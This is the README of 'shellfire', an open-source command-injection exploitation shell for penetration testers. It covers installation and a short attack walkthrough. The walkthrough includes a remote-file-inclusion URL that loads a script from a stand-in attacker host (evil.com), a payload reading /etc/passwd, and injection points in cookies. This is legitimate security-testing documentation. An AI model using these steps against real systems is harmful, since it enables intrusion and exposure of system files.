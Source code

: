 # shellfire

_shellfire_ is an exploitation shell which focuses on exploiting command injection vulnerabilities. This can be useful when exploiting LFI, RFI, SSTI, etc.

I originally started developing this script while working on my OSCP labs. As the capabilities grew, I thought maybe other people could find this as 
useful as I have, so I decided to open source my tool.

## Features  

- [X] Persistent named configuration for multiple targets (and sharing!)  
- [X] Plugin system  
- [X] PHP payload  
- [X] ASP payload  


## Installation  

There are a few ways to install this tool. Shellfire is available via PyPI, so you can use pip.

```
$ pip install shellfire
```

From Kali Linux, you can even use apt.

```
$ sudo apt install shellfire
```

If you'd like to build from source, you can use the standard Python setuptools to install this package.

```
$ git clone https://github.com/unix-ninja/shellfire.git
$ cd shellfire
$ python setup.py install
```

## A few useful hints

After installing, you can just call 'shellfire' from your terminal.

```
$ shellfire
[*] ShellFire v0.8
[*] Type '.help' to see available commands
>>
```

You can type `.help` at any time for a list of available commands, or append 
the command you want to know more information about to help for specific 
details. For example `.help .http`.

Let's explore how to attack a basic RFI vulnerability!

To start exploitation, you need to specify at least the URL parameter of your target. 
Something like the following should work:

```
>> .url http://example.com/?path=http://evil.com/script.php
```

Running any command now would cause your RFI to get executed on the remote target.

Let's say you want to arbitrarily control the payloads going to the path paramter. This time, we will use `{}` to specify our injection point.

```
>> .url http://example.com/?path={}
```

Now, you can just type the payload you want to send and hit enter.

```
>> /etc/passwd
```

At this point, you should have enough to exploit easy vulnerabilities. Payloads you enter on the shell will be appropriately injected and sent over to your target.

More complex vulnerabilities may require specifying additional options. 
For example, let's assume you needed to send a cookie with a session ID in 
order to exploit your target. You may want to add something like this:

```
>> .cookies { "session_id" : "123456789" }
```

We can specify injection points in cookies too.

```
>> .cookies { "session_id" : "123456789", "vuln_param": "{}" }
```

Additional options, and information on how to use them, can be discovered by 
using the `.help` option in the shell.

Thanks to Offensive-Security for inspiring the creation of this utility.

Please use this tool for good.

Happy hacking!


## Testing  

Testing is currently being done against the [dvwa docker image](https://hub.docker.com/r/vulnerables/web-dvwa/).
